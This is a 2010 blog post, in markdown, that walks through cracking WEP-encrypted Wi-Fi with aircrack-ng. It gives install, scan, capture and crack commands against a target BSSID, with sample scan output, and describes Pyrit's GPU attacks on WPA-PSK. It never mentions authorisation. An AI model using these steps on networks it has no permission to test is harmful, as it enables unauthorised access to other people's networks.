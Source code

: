 ```yaml
---
comments: true
date: "2010-04-03T17:29:24Z"
slug: hack-wireless-network
tags:
- Aircrack-ng
- Debian
- Network Security
- Ubuntu
- WEP
- Wi-Fi
- WPA
categories:
- Linux
- Network Security
title: How to Hack a Wireless Network
wordpress_id: 22
---
```


[WEP](https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) was intended to provide comparable confidentiality to a traditional wired network (in particular it does not protect users of the network from each other, but from outsiders), hence the name WEP.

Despite the intention, several serious weaknesses were identified by [cryptanalysts](https://en.wikipedia.org/wiki/Cryptanalysis) over the last years. The severity of the weaknesses means that any WEP protected network can be cracked using the right software within two minutes or less.

WEP was superseded by [Wi-Fi Protected Access](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access) (also known as WPA) in 2003, and then by the full [IEEE 802.11i](https://en.wikipedia.org/wiki/IEEE_802.11i-2004) standard (also known as WPA2) in 2004. Despite the weaknesses, WEP provides a level of security that can deter casual snooping.

**Hack Versus Crack**

For your information - just to get the right jargon.

The Eric S. Raymonds [Jargon File](http://www.catb.org/jargon) contains a bunch of definitions of the term "[hacker](https://en.wikipedia.org/wiki/Hacker_%28computer_security%29)", most having to do with technical adeptness and a delight in solving problems and overcoming limits. The basic difference between a hacker and a cracker is this: hackers build things, crackers break them.

**Howto Conduct The Actual Crack**

It's fairly easy to [crack](https://en.wikipedia.org/wiki/Password_cracking) a [WEP](https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) encrypted [wireless network](https://en.wikipedia.org/wiki/Wi-Fi), because the [WEP encryption](https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy) has some serious flaws in its design, flaws that makes it easy and fast to [crack](https://en.wikipedia.org/wiki/Password_cracking) or hack.

Install [aircrack-ng](https://www.aircrack-ng.org/) - on Debian or Ubuntu by:


    sudo aptitude install aircrack-ng


Then start aircrack-ng to look for wireless networks:


    sudo airodump-ng eth1

Then notice the channel number of the wireless network you want to crack.

    CH  1 ][ Elapsed: 9 mins ][ 2012-08-19 18:35

    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

    70:71:BC:A6:FF:FF  -68      285      191    0   4  54e  WEP  WEP         wifi-0
    00:17:9A:F1:FF:FF  -77      599      104    0   6  54 . WEP  WEP         wifi-1
    4C:E6:76:C4:FF:FF  -38      926       60    0   2  54e  WPA2 CCMP   PSK  wifi-2
    C4:3D:C7:34:FF:FF  -62      476      397    0   8  54e  WPA  TKIP   PSK  wifi-3


Quit aircrack-ng and start it again with med specific channel number to collect packages faster:


    sudo airodump-ng -c 4 -w dump eth1


Then wait and let it collect about 500K IVS and the try the do the actual crack:


    sudo aircrack-ng -b 0a:0b:0c:0d:0e:0f dump-01.cap


The MAC after the -b option is the BSSID of the target and dump-01.cap the file containing the captured packets.

**Only WEP Encrypted Networks**

Keep in mind that this approach is only usable in relation to WEP encrypted wireless networks, and cannot be used to crack WPA and WPA2 encrypted networks.

However, there is a new project called [Pyrit](https://code.google.com/p/pyrit/),which is currently under it's way. Pyrit takes a step ahead in attacking WPA-PSK and WPA2-PSK, the protocol that today de-facto protects public [WIFI](https://en.wikipedia.org/wiki/Wi-Fi)-airspace. The project's goal is to estimate the real-world security provided by these protocols. Pyrit does not provide [binary](https://en.wikipedia.org/wiki/Binary_file) files or wordlists and does not encourage anyone to participate or engage in any harmful activity. This is a research project, not a cracking tool - keep that in mind ;-)

Pyrit's implementation allows to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time-tradeoff. The performance gain for real-world-attacks is in the range of three orders of magnitude which urges for re-consideration of the protocol's security. Exploiting the computational power of [GPUs](https://en.wikipedia.org/wiki/Graphics_processing_unit), this is currently by far the most powerful attack against one of the world's most used security-protocols.
